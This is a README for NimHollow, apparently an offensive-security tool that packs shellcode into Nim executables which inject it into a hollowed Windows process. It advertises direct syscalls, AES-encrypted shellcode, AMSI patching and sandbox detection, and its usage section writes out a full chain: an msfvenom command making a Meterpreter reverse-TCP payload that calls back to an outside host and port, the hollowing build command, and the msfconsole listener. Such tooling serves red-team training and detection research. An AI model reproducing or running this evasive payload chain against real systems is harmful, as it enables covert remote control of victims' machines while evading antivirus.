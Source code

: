 NimHollow
==========

Playing around with the [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) technique using Nim.

Features:

* Direct syscalls for triggering Windows Native API functions with [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers).
* Shellcode encryption/decryption with [AES in CTR mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_(CTR)).
* AMSI patching with @rasta-mouse's [method](https://rastamouse.me/memory-patching-amsi-bypass/).
* Simple sandbox detection techniques from the OSEP course by @offensive-security.

## Usage

Installation:

```console
~$ git clone --recurse-submodules https://github.com/snovvcrash/NimHollow && cd NimHollow
~$ sudo apt install upx -y
~$ pip3 install -r requirements.txt
```

Example:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.13.37 LPORT=31337 EXITFUNC=thread -f raw -o shellcode.bin
~$ python3 NimHollow.py shellcode.bin -i 'C:\Windows\System32\calc.exe' -o hollow --upx --rm
~$ file hollow.exe
hollow.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
~$ sudo msfconsole -qr msf.rc
```

Help:

```
usage: NimHollow.py [-h] [-i IMAGE] [-o OUTPUT] [--debug] [--upx] [--rm] shellcode_bin

positional arguments:
  shellcode_bin         path to the raw shellcode file

optional arguments:
  -h, --help            show this help message and exit
  -i IMAGE, --image IMAGE
                        process image to hollow (default "C:\Windows\System32\svchost.exe")
  -o OUTPUT, --output OUTPUT
                        output filename
  --debug               do not strip debug messages from Nim binary
  --upx                 compress Nim binary with upx
  --rm                  remove Nim files after compiling the binary
```

## Process Hollowing in Slides

![](https://user-images.githubusercontent.com/23141800/132566686-09dda614-6cb7-46ea-9218-716ce31a7798.png)
![](https://user-images.githubusercontent.com/23141800/132566690-d60e7db0-0370-41ab-85cf-0b0ee8cc50fb.png)
![](https://user-images.githubusercontent.com/23141800/132566771-b7b4a867-3afc-4cb6-8e0d-a722bd683c6b.png)
![](https://user-images.githubusercontent.com/23141800/132566782-f491ac47-cc6e-4298-a9f5-4f283b6246ad.png)

## Credits

* @ajpc500 for the [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) project.
* @byt3bl33d3r for the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/) repository.
* @S3cur3Th1sSh1t and @chvancooten for Nim [code](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim) [snippets](https://github.com/byt3bl33d3r/OffensiveNim/issues/16).
